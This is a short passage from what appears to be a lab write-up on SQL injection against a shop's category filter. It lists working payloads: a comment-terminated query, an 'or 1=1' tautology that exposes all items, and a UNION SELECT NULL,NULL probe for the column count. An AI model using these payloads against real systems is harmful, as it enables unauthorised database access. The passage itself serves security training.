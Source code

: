 ![img](media/fafa206bac694152b7c456e4643bddec.png)

We find these payload are valid to display the 4 posts in Gifts and the second
all the items:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'--
/filter?category=Gifts'+or+1=1--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Also, that there are 2 columns returned by the query and we can do a UNION
attack with:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'+union+all+select+NULL,NULL--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
